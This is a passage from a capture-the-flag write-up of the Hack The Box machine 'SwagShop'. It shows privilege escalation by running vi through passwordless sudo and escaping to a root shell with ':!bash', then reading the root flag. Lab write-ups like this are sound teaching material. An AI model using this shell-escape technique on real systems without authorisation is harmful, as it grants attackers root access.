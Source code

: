 **Wow. This user can run vi as root with no password!**

vi and its kindred have one of the most famous "shell breakouts" ever - so this is definitely worth pursuing:
https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells?slide=8

The slight caveat is that wwww-data can only do so when editing a file in /var/www/html/ - but that's not a big deal.

```
sudo /usr/bin/vi /var/www/html/testfile.sh

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'
:!bash
[No write since last change]                                  1,1           All
root@swagshop:/home/haris# id
id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:~# cat root.txt
cat root.txt
<FLAG!>

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```

Done. We have root access on the machine!
